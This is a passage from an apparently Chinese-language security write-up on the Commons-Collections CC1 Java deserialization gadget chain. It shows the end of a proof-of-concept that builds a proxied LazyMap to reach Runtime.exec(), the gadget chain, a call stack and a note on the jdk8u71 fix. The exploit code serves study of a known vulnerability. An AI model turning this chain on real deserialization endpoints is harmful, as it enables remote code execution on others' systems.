        Map proxyedMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);

        Object obj = constructorhandler.newInstance(Override.class,proxyedMap);

        serialize(obj);
        unserialize("CC1plus.txt");

    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC1plus.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
	Requires:
		commons-collections
 */
```

最终函数调用栈

```java
transform:122, ChainedTransformer (org.apache.commons.collections.functors)
get:158, LazyMap (org.apache.commons.collections.map)
invoke:77, AnnotationInvocationHandler (sun.reflect.annotation)
entrySet:-1, $Proxy0 (com.sun.proxy)
readObject:444, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unserialize:17, Utils (com.example.Utils)
main:52, CC1_poc2 (com.example)
```


## 0x05版本修复

在jdk8u_71之后，AnnotationInvocationHandler类被重写了，修改了readObject方法，里面没有了setValue方法。
